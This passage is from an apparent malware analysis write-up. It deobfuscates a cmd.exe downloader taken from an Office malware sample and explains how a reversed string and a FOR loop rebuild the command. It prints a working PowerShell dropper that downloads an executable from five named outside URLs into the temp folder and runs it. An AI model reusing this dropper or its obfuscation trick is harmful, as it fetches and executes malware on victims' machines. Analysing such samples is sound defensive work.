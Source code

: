 According to help of cmd.exe, `/V:ON` allows a variable to get a new value in each iteration of the FOR loop. 
<pre>
/V:ON Enable delayed environment variable expansion 
         this allows a FOR loop to specify !variable! instead of %variable% 
         expanding the variable at execution time instead of at input time.
</pre>

Next comes the command for execution. Let's divide it into two parts. First part:

`set SiQ=;'cjqhpb'=qijmnd$}}{hctac}};kaerb;'bchkzfb'=dqkzr$;hkjzjlz$ metI-ekovnI{ )00004 eg- htgnel.)hkjzjlz$ metI-teG(( fI;'jrkjik'=ciikdj$;)hkjzjlz$ ,qjcaki$(eliFdaolnwoD.irhwidj${yrt{)ujbwa$ ni qjcaki$(hcaerof;'exe.'+zbwnifi$+'\'+pmet:vne$=hkjzjlz$;'ziwmvv'=pzrifoh$;'904' = zbwnifi$;'scjmbw'=fmsqvii$;)'@'(tilpS.'41fpegeLDajCgKnc/moc.ssenisubrusoh.www//:ptth@Mw6O63Df_Cm066CcdkU7o/moc.aicizyhp.www//:ptth@j7OEo_7MhAbZp6jnHp/zt.oc.skeegt.liam//:ptth@8or1uzsdZ8vie/RXI/sedulcni-pw/moc.srevirehtybkramdnal//:ptth@R8Fd3N9UmbYBzI/ten.enoniletoh.www//:ptth'=ujbwa$;tneilCbeW.teN tcejbo-wen=irhwidj$;'imsizuu'=iijirwb$ ll%1,3-~:PMET%h%1,4-~:EMANNOISSES%r%1,5~:CILBUP%wop`

Second part: `for /L %h in (657,-1,0)do set nu=!nu!!SiQ:~%h,1!&&if %h equ 0 echo !nu:~-658!| cmd`

In the first part, the variable `SiQ` is set to some sort of character set. As we noted earlier, it is very similar to an inverted string. Revert it to normal state:

`pow%PUBLIC:~5,1%r%SESSIONNAME:~-4,1%h%TEMP:~-3,1%ll $bwrijii='uuzismi';$jdiwhri=new-object Net.WebClient;$awbju='http://www.hotelinone.net/IzBYbmU9N3dF8R@http://landmarkbytherivers.com/wp-includes/IXR/eiv8Zdszu1ro8@http://mail.tgeeks.co.tz/pHnj6pZbAhM7_oEO7j@http://www.phyzicia.com/o7UkdcC660mC_fD36O6wM@http://www.hosurbusiness.com/cnKgCjaDLegepf14'.Split('@');$iivqsmf='wbmjcs';$ifinwbz = '409';$hofirzp='vvmwiz';$zljzjkh=$env:temp+'\'+$ifinwbz+'.exe';foreach($ikacjq in $awbju){try{$jdiwhri.DownloadFile($ikacjq, $zljzjkh);$jdkiic='kijkrj';If ((Get-Item $zljzjkh).length -ge 40000) {Invoke-Item $zljzjkh;$rzkqd='bfzkhcb';break;}}catch{}}$dnmjiq='bphqjc';`

To understand how these two parts work, I will give a small example. Suppose we want to obfuscate the `help` call in `cmd`.
To do this, set the environment variable `siq = pleh` (help vice versa).
`for / L% h in (3, -1,0) do` - loop with 4 iterations, for each letter
`set nu =! nu !! siq: ~% h, 1!` - every iteration, we add to the variable `nu` the value` siq: ~% h, 1`, since `% h` is the index of the string from the end, then we each iteration make up a string equal to the inverse.
`if% h equ 0 echo! nu: ~ -4! | cmd` - wait until each character is processed and send the result to be executed to cmd.exe. As a result, we get the following command:
`set siq = pleh && for / L% h in (3, -1,0) do set nu =! nu !! siq: ~% h, 1! && if% h equ 0 echo! nu: ~ -4! | cmd`

![](/assets/images/ru/OfficeMalware/cmd_help_obfuscation.png)